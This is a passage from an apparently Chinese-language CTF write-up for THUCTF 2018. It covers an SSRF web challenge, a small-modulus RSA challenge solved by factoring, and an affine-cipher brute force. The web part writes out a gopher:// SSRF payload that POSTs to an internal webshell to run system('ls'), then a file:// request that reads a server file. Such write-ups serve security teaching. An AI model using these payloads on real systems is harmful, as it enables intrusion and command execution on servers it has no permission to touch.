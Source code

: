 即访问

```URL
http://babyweb.thuctf2018.game.redbud.info:8016/?url=gopher://127.0.0.1:80/_POST%2520/webshe11111111.php%2520HTTP/1.1%250D%250AHost%253A%2520localhost%253A12345%250D%250AUser-Agent%253A%2520curl/7.47.0%250D%250AAccept%253A%2520%252A/%252A%250D%250AContent-Length%253A%252034%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadmin%253Dh1admin%2526hacker%253Dsystem%2528%2527ls%2527%2529%253B%250D%250A
```

得到 `fl11111aaaaaggggg.php`。再查看这个文件的内容

```URL
http://babyweb.thuctf2018.game.redbud.info:8016/?url=file:///var/www/html/fl11111aaaaaggggg.php
```

即得到 `flag`

## easy rsa
`n = 1606938044411740147595993131987762585049124570740766496467497` 太小了，可以用 `msieve` 等工具直接分解

```sh
$ ./msieve 1606938044411740147595993131987762585049124570740766496467497 -q

1606938044411740147595993131987762585049124570740766496467497
p31: 1267650600250483566087213332093
p31: 1267650600326473639245405017629
```

然后就好办了

```Python
def ext_euclid(a, b):
    if (b == 0):
        return 1, 0, a
    else:
        x, y, q = ext_euclid(b, a % b)
        x, y = y, (x - (a // b) * y)
        return x, y, q

p = 1267650600250483566087213332093
q = 1267650600326473639245405017629
cipher = 401533489858983095606309339787817217779019525090976475619112

d, _, gcd = ext_euclid(0x10001, (p - 1) * (q - 1))
assert gcd == 1

plaintext = pow(cipher, d, p * q)
plaintext = hex(plaintext)[2:-1]
plaintext = bytearray.fromhex(plaintext)

print(plaintext)
```

## polynomial
观察加密方式，发现其为仿射密码，只有两个参数，范围只有 $257^2$ 量级，可直接枚举：
```Python
data = 'ca6d1106cadeb7c164ac79dfac79df6e12df6ed5d5ac128ddffeaca2648d31df6efe08c16e8383278046'
data = bytearray.fromhex(data)
decode = lambda x: (x * p + q) % 257

for p in range(257):
    for q in range(257):
        if decode(data[0]) == ord('T') and decode(data[1]) == ord('H'):
            decode_data = [decode(x) for x in data]
            decode_data = [chr(x) for x in decode_data]
            decode_data = ''.join(decode_data)
```